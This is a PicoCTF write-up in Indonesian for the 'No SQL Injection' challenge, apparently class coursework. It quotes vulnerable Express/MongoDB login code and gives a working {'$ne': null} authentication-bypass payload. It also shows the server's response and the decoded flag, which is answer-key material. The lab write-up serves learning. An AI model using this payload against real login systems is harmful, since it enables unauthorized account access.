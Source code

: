 # Writeup PicoCTF: No SQL Injection

[Akses Challenge disini](https://play.picoctf.org/practice/challenge/443?page=1&search=sql)

Di tantangan ini, kita diberikan sebuah website dengan halaman login. Tugas kita adalah mencoba masuk (login) untuk mendapatkan flag-nya, tapi tentu saja kita tidak tahu email dan password-nya.

![pico-no-sql](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql1.png)

## Overview

- **Nama Challenge**: No SQL Injection

## Menemukan Celah

Setelah mengunduh dan melihat source code yang diberikan, kita bisa menemukan celah keamanan pada bagian `server.js`, tepatnya di kode yang menangani proses login:

```javascript
app.post("/login", async (req, res) => {
  const { email, password } = req.body;
  try {
    const user = await User.findOne({
      email:
        email.startsWith("{") && email.endsWith("}")
          ? JSON.parse(email)
          : email,
      password:
        password.startsWith("{") && password.endsWith("}")
          ? JSON.parse(password)
          : password,
    });
```

**Masalah Utama**

Masalah utamanya ada pada baris `JSON.parse(email)` dan `JSON.parse(password)`. Kode ini memeriksa apakah input dari pengguna diawali dengan `{` dan diakhiri dengan `}`. Jika iya, server akan menganggapnya sebagai objek JSON dan langsung menggunakannya untuk mencari data di database MongoDB.

## Langkah Eksploitasi

### 1. Payload

```json
{
  "email": "{\"$ne\": null}",
  "password": "{\"$ne\": null}"
}
```

**Apa arti payload di atas?**
- `"$ne"` adalah operator MongoDB yang artinya *"Not Equal"* (tidak sama dengan).
- `{\"$ne\": null}` berarti "cari data apapun yang nilainya **tidak kosong**".

### 2. Mengirim Payload

Kita bisa menggunakan `curl` di terminal atau burpsuite untuk mengirim payload ini ke server.

![SQLI-2](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql2.png)

### 3. Mendapatkan Flag

Jika berhasil, server akan merespons dengan data user admin, termasuk sebuah `token`:

```json
{
  "success": true,
  "email": "admin@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",
  "firstName": "admin",
  "lastName": "user"
}
```

`token` tersebut di-encode menggunakan Base64. Untuk mendapatkan flag-nya, kita perlu men-decode token tersebut.

Bisa menggunakan tool online atau perintah di terminal:

```bash
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==" | base64 -d
```

![Decode]([image.png](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql3.png))

Setelah di-decode, kita akan mendapatkan flag-nya:

> `picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}`